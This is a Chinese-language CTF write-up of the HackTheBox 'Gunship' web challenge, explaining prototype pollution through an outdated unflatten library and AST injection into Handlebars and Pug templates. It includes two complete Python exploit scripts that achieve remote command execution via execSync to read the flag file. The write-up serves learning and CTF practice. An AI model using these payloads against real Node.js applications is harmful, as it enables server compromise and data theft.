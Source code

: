 # Gunship

date: `2021-09-02`


## 懵逼记录

第一次做 web 类的题目, 还是挺不知所措的, 打开后点了一下页面, 发现唯一一个与server有交互的接口是页面最下面 `who's your favourite artist?` 的按钮

点击后数据包格式为:

```http request
POST /api/submit HTTP/1.1
Host: 192.168.220.168:1337
Content-Length: 31
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.220.168:1337
Referer: http://192.168.220.168:1337/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: _xsrf=2|54a131fd|a0a4bc2b445ff9b6537609c8f4d5f01e|1626706894; username-192-168-220-168="2|1:0|10:1629450827|24:username-192-168-220-168|44:OGEzOTE5NDg3ZDkxNDZhNDhjY2VlNWZiZWFkNmYyYzM=|4f6d1b355b08d1cf40bc08f661226a0f44c4ae407709859af6265c31b9d83d3e"
Connection: close

{"artist.name":"Alex Westaway"}
```

看了下没什么数据交互的部分, 甚至 xss 都没有, 就懵逼了...

## 题解(抄作业)

看了网上的 write-up, 发现这是一个 `HTB x Uni CTF 2020` 的题目, [题解地址](https://sec.stealthcopter.com/htb-ctf-write-up-gunship/)

Gunship 是一个 Nodejs 的web应用, 在 比赛中, 应用源码中带有一段注释, 指明了存在漏洞的地方和漏洞类型:

> unflatten seems outdated and a bit vulnerable to prototype pollution we sure hope so that po6ix doesn't pwn our puny app with his AST injection on template engines

谷歌一下, 就发现了 po6ix 关于 Nodejs AST injection的博客: [博客地址](https://blog.p6.is/AST-Injection/#Exploit)

博客中介绍了 Nodejs 两种 AST, Handlebars 和 Pug 的 exp

Handlebars:

```python
import requests

#TARGET_URL = 'http://178.128.160.242:32080'
TARGET_URL = 'http://localhost:1337'

# make pollution
r = requests.post(TARGET_URL+'/api/submit', json = { 
    "artist.name":"Gingell",
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync('cat /app/flags* > /app/static/out')"
        }], 
        "loc": {
            "start": 0,
            "end": 0
        }   
    }]  
    })  

print(r.status_code)
print(r.text)

print(requests.get(TARGET_URL+'/static/out').text)
```

Pug:

```python
import requests

#TARGET_URL = 'http://188.166.173.208:30000'
TARGET_URL = 'http://0.0.0.0:1337'

# make pollution
r = requests.post(TARGET_URL+'/api/submit', json = { 
        "artist.name": "Haigh",
        "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync('cat /app/flag* > /app/static/out')"
        }   
})


print(r.status_code)
print(r.text)

print(requests.get(TARGET_URL+'/static/out').text)
```

利用之即可 get flag

## 思考

1. 遇到一个网站, 如何识别其所用组件?

- web指纹, https://www.freebuf.com/articles/web/202560.html
  - whatweb
  - Wapplyzer

2. web组件极多, 如何有效查询组件具有的漏洞和利用?
  #todo


